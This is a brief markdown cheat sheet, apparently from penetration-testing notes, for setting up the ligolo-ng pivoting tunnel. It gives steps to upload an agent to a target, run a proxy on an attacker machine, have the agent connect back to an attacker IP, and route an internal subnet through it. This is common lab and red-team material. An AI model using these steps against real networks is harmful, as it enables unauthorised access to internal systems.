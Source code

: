 # ligolo-ng Setup

## Preparation

### Download and Extract Ligolo-NG

```bash
unzip ligolo-ng_agent_0.7.2_windows_amd64.zip >> agent.exe
tar xvzf ligolo-ng_proxy_0.7.2_linux_arm64.tar.gz >> proxy
```

## Steps to Configure and Use Ligolo-NG

### 1. Upload the `agent.exe` to the Target System

Transfer the `agent.exe` file to the target machine.

### 2. Add Interface to Kali

```bash
sudo ip tuntap add user kali mode tun ligolo
```

### 3. Activate the Ligolo Network Adapter

```bash
sudo ip link set ligolo up
```

### 4. Run the Proxy Server on the Attacker Machine

```bash
./proxy -selfcert
```

### 5. Activate the Agent on the Target

On the target system, run:

```bash
.\agent.exe -connect 192.168.1.1:11601 -ignore-cert
```

### 6. Select Target Session

In the proxy console, use the `session` command to select the desired target session:

```bash
session
```

### 7. Add a New Route to the Proxy Server

```bash
sudo ip route add 172.16.1.0/24 dev ligolo
```

### 8. Verify Routes

Check the routes using the following command:

```bash
ip route
```

### 9. Start the Proxy Tunnel

```bash
start
```

### 10. Verify Connectivity

Ping the target network to confirm connectivity:

```bash
ping 172.16.1.1
